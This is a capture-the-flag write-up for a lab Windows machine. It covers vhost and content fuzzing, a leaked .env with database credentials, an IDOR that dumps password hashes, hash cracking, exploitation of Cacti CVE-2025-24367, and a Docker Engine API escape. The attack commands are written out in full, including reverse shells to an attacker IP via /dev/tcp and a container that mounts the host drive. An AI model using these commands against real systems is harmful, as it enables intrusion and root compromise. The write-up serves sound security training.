


MonitorFour is a Windows box. The foothold comes from a Cacti instance reached through a vhost: a leaked .env and an IDOR on /user expose user hashes, one cracks, and CVE-2025-24367 turns an authenticated Cacti session into code execution. The shell lands in a container, and an exposed Docker Engine API on the host is used to break out to root.
Reconnaissance
Two ports stand out — a web server and WinRM — on a Windows host.
nmap -Pn 10.129.174.167 -p80,5985 -sCV
PORT STATE SERVICE VERSION
80/tcp open http nginx
5985/tcp open http Microsoft HTTPAPI httpd 2.0
Service Info: OS: WindowsAdd monitorsfour.htb to /etc/hosts, then fuzz for virtual hosts.
ffuf -u http://monitorsfour.htb/ -H "Host: FUZZ.monitorsfour.htb" \
-w .../subdomains-top1million-5000.txt -fs 138
cacti [Status: 302, Size: 0]A cacti vhost appears (add it to /etc/hosts too). It runs a vulnerable version of Cacti with a login page; the unauthenticated PoC fails, so credentials are needed. Content fuzzing the main site is more productive:
ffuf -u http://monitorsfour.htb/FUZZ -w .../common.txt
.env [200]
controllers [301]
forgot-password [200]
login [200]
user [200]
views [301]The exposed .env leaks the database configuration:
DB_HOST=mariadb
DB_PORT=3306
DB_NAME=monitorsfour_db
DB_USER=monitorsdbuser
DB_PASS=f37p2j8f4t0rIDOR on /user → hashes
Parameter fuzzing /user reveals a token parameter.
ffuf -u "http://monitorsfour.htb/user?FUZZ=key" -w .../burp-parameter-names.txt -fs 35
token [Status: 200, Size: 36]Supplying a guessable token value dumps user records — including MD5 password hashes — straight out of the database:
curl "http://monitorsfour.htb/user?token=0"
[{"id":2,"username":"admin","email":"admin@monitorsfour.htb",
"password":"56b32eb43e6f15395f6c46c1c9e1cd36","role":"super user",
"name":"Marcus Higgins","position":"System Administrator"...},
...mwatson, janderson, dthompson... ]The admin hash is a plain MD5 and cracks instantly:
hashcat -m 0 56b32eb43e6f15395f6c46c1c9e1cd36 rockyou.txt
56b32eb43e6f15395f6c46c1c9e1cd36:wonderful1
marcus / wonderful1).Foothold — CVE-2025-24367
With a valid Cacti login, CVE-2025-24367 is used to write PHP files and gain execution.

python3 exploit.py -u marcus -p wonderful1 \
-i 10.10.14.11 -l 4444 -url http://cacti.monitorsfour.htb
[+] Cacti Instance Found!
[+] Login Successful!
[+] Got graph ID: 226
[+] Hit timeout, looks good for shell, check your listener!nc -nlvp 4444
connect to [10.10.14.11] from (UNKNOWN) [10.129.174.167]
www-data@821fbd6a43fa:~/html/cacti$The user flag sits in marcus's home directory:
www-data@821fbd6a43fa:/home/marcus$ cat user.txtContainer escape → root
The hostname and uname make it clear this is a container on a WSL2 Docker host. Enumeration of /etc/resolv.conf reveals the host's address, and the Docker Engine API is exposed there, unauthenticated, on port 2375:
# /etc/resolv.conf -> # ExtServers: [host(192.168.65.7)]
curl http://192.168.65.7:2375/version
{"Platform":{"Name":"Docker Engine - Community"},"Version":"28.3.2",...}An exposed Docker API is root on the host by design: you can create a container that mounts the host filesystem and runs anything. Useful read-only endpoints for recon include/info,/images/jsonand/containers/json; the create/start pair below is what actually escapes.
Create a container that binds the host's C: drive and runs a reverse shell, then start it:
cat << 'EOF' > config.json
{
"Image": "docker_setup-nginx-php:latest",
"Cmd": ["/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.11/4445 0>&1"],
"HostConfig": { "Binds": ["/mnt/host/c:/host_root"] }
}
EOF
curl -H 'Content-Type: application/json' -d @config.json \
http://192.168.65.7:2375/containers/create -o response.json
curl -X POST http://192.168.65.7:2375/containers/<ID>/startA listener catches the root shell, and the root flag is readable from the bound host filesystem.
Lesson: never bind the Docker socket or expose 2375 without TLS and auth — API access is equivalent to root on the host, container boundary or not.